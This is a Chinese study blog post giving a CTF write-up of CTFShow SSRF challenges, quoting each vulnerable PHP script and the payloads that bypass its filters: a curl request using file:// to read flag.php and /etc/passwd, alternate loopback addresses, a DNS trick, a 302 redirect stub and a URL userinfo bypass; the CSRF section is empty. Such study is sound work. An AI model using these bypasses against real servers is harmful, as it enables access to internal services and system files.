 ```yaml
---
title: SSRF & CSRF
date: 2025-04-03 16:14:00
tags: [CTF, Web, 渗透]
categories: 学习
---
```


朝花夕拾。
<!--more-->

## 前言

遥远的三年前就被 Matrix 面试问过 CSRF，如今子弹正中眉心了。

## SSRF

### SSRF 简介

SSRF（Server-Side Request Forgery）中文翻译过来就是服务器端请求伪造攻击。

以下为 CTFShow 上的题目：

### web351 - web355

题目 web351 直接访问代码如下：

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?>
```

再测试一下目录，发现存在 `/flag.php` 文件，访问提示 `非本地用户禁止访问`，说明题目意思就是利用 `index.php` 来构造 SSRF 攻击访问 `/flag.php`。
搜索发现 `curl_exec()` 函数可以使用 `file://` 协议来读取本地文件，直接构造请求：

```bash
curl -X POST -d "url=file:/var/www/html/flag.php" http://f9eb43c2-526b-4868-9513-ec378c84383c.challenge.ctf.show/
```

即可查看到 `/flag.php` 的内容，同样也能读取 `/etc/passwd` 等文件。

web352 直接访问代码如下：

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127.0.0/')){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?>
```

题目意思框定了要求的协议为 `http` 和 `https`，并且不能包含 `localhost` 和 `127.0.0`，但是仔细观察可以发现 `preg_match()` 函数只有 pattern 参数，根本没有起到检测的作用，直接传 `http://127.0.0.1/flag.php` 也能访问到 `/flag.php` 的内容，预期解应该是传长整数型的 IP，即 `http://2130706433/flag.php`，当然直接传 `0x7f000001` 也是没有问题的。

web353 直接访问代码如下：

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?>
```

。。。直接就是上一题的 revenge，但是聪明的出题人你知不知道回送地址是 127.0.0.0/8 呢
我直接一个 127.2.0.1 你不炸了吗

web354 做得比较绝了，直接 `preg_match('/localhost|1|0|。/i', $url)`，我想一会直接搞了个比较淫荡的方法，经过测试这个环境是通网的，那直接用手头的域名解析到 127.0.0.1 即可，`http://local.weyung.cc/flag.php` 就行了，最后一看 wp 好像这还确实是预期解，绷。

web 356 直接访问代码如下：

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=5)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?>
```

把 host 长度限制在 5 个字符以内，想不出来了，看 wp 的话可以 `http://0/flag.php`，因为在 Linux 中 0 指向 localhost，也可以 `http://127.1/flag.php`，当然我觉得有钱买个更短的域名应该也行就是了（

### web356 - web360

web356 直接就是把长度限制调成 3 了，应该就是只能用 `http://0/flag.php` 了。

web357 直接访问代码如下：

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$ip = gethostbyname($x['host']);
echo '</br>'.$ip.'</br>';
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
    die('ip!');
}


echo file_get_contents($_POST['url']);
}
else{
    die('scheme');
}
?>
```

这个过滤也做得比较绝，直接把本地 IP 都封死了，只能在公网服务器做一个 302 重定向

```php
<?php header("Location: http://127.0.0.1/flag.php", true, 302);?>
```

然后访问这个公网 IP 即可。

web358 直接访问代码如下：

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

这个除了搞一个 ctf 开头的域名以外我也想不出来方法了，看 wp 可以构造 `http://ctf.@127.0.0.1/flag.php?show` 这样的 payload，直接把 `ctf.` 作为 username 传入。

web359 开始就是正经题目了，访问得到一个登录页面

// To be continued...

## CSRF

## 参考

<https://xz.aliyun.com/news/10663>

